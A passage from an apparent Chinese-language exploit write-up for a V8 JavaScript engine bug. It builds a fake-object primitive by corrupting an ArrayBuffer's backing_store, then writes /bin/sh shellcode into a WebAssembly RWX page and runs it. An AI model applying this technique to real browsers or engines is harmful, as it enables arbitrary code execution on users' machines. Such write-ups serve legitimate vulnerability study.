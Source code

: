 我们对`p1`中的`x1`和`x2`进行写入时，实际上会写入`obj`中的对应位置。这里有一个非常常用的结构`ArrayBuffer`，其中的`backing_store`字段存放了一个内存地址，该地址是实际读写时的地址。如果能够修改该地址为任意地址，则可以利用这一`ArrayBuffer`达到任意地址读写的效果。<br/> 通过调试很容易发现，`backing_store`和`x2`的偏移相同，因此对`x2`进行修改能够达到修改`backing_store`的作用，进而可以控制`ArrayBuffer`任意地址读写。

```
function fakeObj(obj, addr) {
  eval(`
  function vuln(obj) {
    obj.a;
    this.Object.create(obj);
    let orig = obj.b${p1}.x2;
    obj.b${p1}.x2 = ${addr};
    return orig;
  }
`);

  let values = [];
  let o = { x1: 1.1, x2: 1.2 };
  values[p1] = o;
  values[p2] = obj;

  for (let i = 0; i &lt; 10000; i++) {
    o.x2 = 1.2;
    let res = vuln(getObj(values));
    if (res != 1.2) {
      return res;
    }
  }
  throw "[!] fakeObj Primitive Failed"
}
```

#### Get Shell

Get shell的方法比较常规，通过`wasm`分配一块可读写可执行的内存，然后通过间接寻址找到这一内存，在这一版本中`wasmInstance`偏移`0xf0`处即为该地址。通过任意地址读写讲shellcode写入，通过调用wasm中的函数执行写入的shellcode。

```
var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
let mem = new ArrayBuffer(1024);
let dv = new DataView(mem);
let addr = addrof(wasmInstance);
fakeObj(mem, addr);
let code_addr = Int64.fromDouble(dv.getFloat64(0xf0 - 1, true));
print("rwx addr", code_addr);
fakeObj(mem, code_addr.asDouble());
let shellcode = [
  0x2fbb485299583b6an,
  0x5368732f6e69622fn,
  0x050f5e5457525f54n
];
let data_view = new DataView(mem);
for (let i = 0; i &lt; 3; i++)
  data_view.setBigUint64(8 * i, shellcode[i], true);
f();
```

